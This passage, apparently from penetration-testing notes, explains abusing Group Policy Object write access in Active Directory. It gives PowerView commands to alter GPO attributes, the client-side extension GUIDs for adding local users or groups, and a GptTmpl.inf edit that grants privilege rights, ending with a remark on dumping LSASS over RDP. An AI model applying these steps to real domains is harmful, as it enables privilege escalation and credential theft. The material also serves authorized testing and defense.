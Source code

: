The `versionNumber` attribute of the GPO object can be modified using
`PowerView`. Note that the `Group Policy` module for PowerShell does not
provides any editing cmdlets for existing GPO.  

```
Get-DomainGPO -Identity "<GPO_NAME | GPO_GUID>" -Properties VersionNumber

Get-DomainGPO -Identity "<GPO_NAME | GPO_GUID>" | Set-DomainObject -Set @{'versionnumber'='<NEW_VERSION>'}
```

###### gPCMachineExtensionNames / gPCUserExtensionNames

The `gPCMachineExtensionNames` or `gPCUserExtensionNames` attributes of a GPO
object refer to the machine / user settings modified.

For example, the following GUID must be added in the `gPCMachineExtensionNames`
attribute in order to make possible the creation of a new user and/or the
update of a local group of the computer the GPO is applied to:

```
# Default extension for GPO modifying the Computer Configuration
{00000000-0000-0000-0000-000000000000} - Core GPO Engine

# User creation or group membership update
{17D89FEC-5C44-4972-B12D-241CAEF74509} - Preference CSE GUID Local users and groups
{79F92669-4224-476C-9C5C-6EFB4D87DF4A} - Preference Tool CSE GUID Local users and groups
```

The `gPCMachineExtensionNames` and `gPCUserExtensionNames` attributes of the
GPO object can be modified using `PowerView`. Note that the `Group Policy`
module for PowerShell does not provides any editing cmdlets for existing GPO:

```
Get-DomainGPO -Identity "<GPO_NAME | GPO_GUID>" -Properties gPCMachineExtensionNames | Select-Object -ExpandProperty gPCMachineExtensionNames

Get-DomainGPO -Identity "<GPO_NAME | GPO_GUID>" | Set-DomainObject -Set @{'gPCMachineExtensionNames'='<{EXISTING_GUID}{NEW_GUID}[...]>'}
```

###### [Example - GPO Machine] User rights

The `GptTmpl.inf` file, located in
`\\<DOMAIN>\SYSVOL\<DOMAIN_FQDN>\Policies\<GPO_GUID>\MACHINE\Microsoft\Windows
NT\SecEdit\`, can be edited to add user rights to the specified domain or local
user.

From an opsec perspective, note that modifying a GPO `[Privilege Rights]`
assignation may override another assignation in a GPO with a lower precedence
order, resulting in a possible loss of access for legitimate personal. It is
thus recommended to first enumerate all GPO being applied on the Organizational
Unit before undertaking any changes.

The full list of privileges assign to an user when being added as a member of
the local built-in Administrators group is as follow. The
`SeRemoteInteractiveLogonRight` and `SeDebugPrivilege` privileges are enough to
dump the `LSASS` process through a Remote Desktop access.
